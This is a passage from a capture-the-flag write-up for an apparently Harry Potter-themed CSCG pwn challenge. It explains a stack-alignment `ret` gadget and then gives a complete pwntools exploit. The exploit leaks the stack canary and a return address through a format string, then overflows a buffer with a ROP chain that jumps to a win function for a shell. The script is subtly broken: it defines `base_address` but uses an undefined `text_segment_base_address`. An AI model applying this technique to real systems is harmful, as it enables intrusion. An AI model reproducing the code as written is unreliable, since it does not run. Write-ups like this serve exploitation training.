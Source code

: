 There are multiple instructions that do this:

- `push` instruction
- `pop` instruction
- `call` instruction
- `ret` instruction
- `sub` rsp, 0x02
- `add` rsp, 0x08

Lets use a tiny rop chain to reduce `rsp` by using one other `ret` instruction.
For the first `ret` we simply use the `ret` from `AAAAAAAA` itself, so we basically jumping on point but reducing the stack.
The offset of this `ret` can simply be obtained by disassembling the `AAAAAAAA` function and is `0xd8d`. 

Now lets put this all together in our final script:

```python
from pwn import *
import struct

stage_1_flag = "CSCG{THIS_IS_TEST_FLAG}"

p = remote('127.0.0.1', 1024)

print(p.recvline()) # Enter the password of stage 1:

p.sendline(stage_1_flag)

print(p.recvline()) # +10 Points for Ravenclaw!
print(p.recvline()) # Enter your witch name:

input('attach gdb')

stack_canary_leak = b'%39$p'
return_address_leak = b'%41$p'
p.sendline(stack_canary_leak+b' '+return_address_leak)

print(p.recvline().decode('utf-8')) # ┌───────────────────────┐
print(p.recvline().decode('utf-8')) # │ You are a Ravenclaw!  │
print(p.recvline().decode('utf-8')) # └───────────────────────┘


memory_leak = p.recvline().split(b' ') # ['0x??????????????', '0x????????????????', enter, your, magic, spell:]
stack_canary_int = int(memory_leak[0], 16)
return_address_int = int(memory_leak[1], 16)
base_address = return_address_int - 0xdc5

print('stack_canary: {0}'.format(hex(stack_canary_int)))
print('base_address: {0}'.format(hex(base_address)))

WINgardium_leviosa_address = struct.pack('Q', text_segment_base_address + 0xb94)
stack_canary_value = struct.pack('Q', stack_canary_int)
AAAAAAAA_ret_location = struct.pack('Q', text_segment_base_address + 0xd8d)

shell_payload = b"Expelliarmus\x00" + b'A'*251 + stack_canary_value + b'B'*8 + AAAAAAAA_ret_location + WINgardium_leviosa_address


p.sendline(shell_payload)
p.interactive()
```
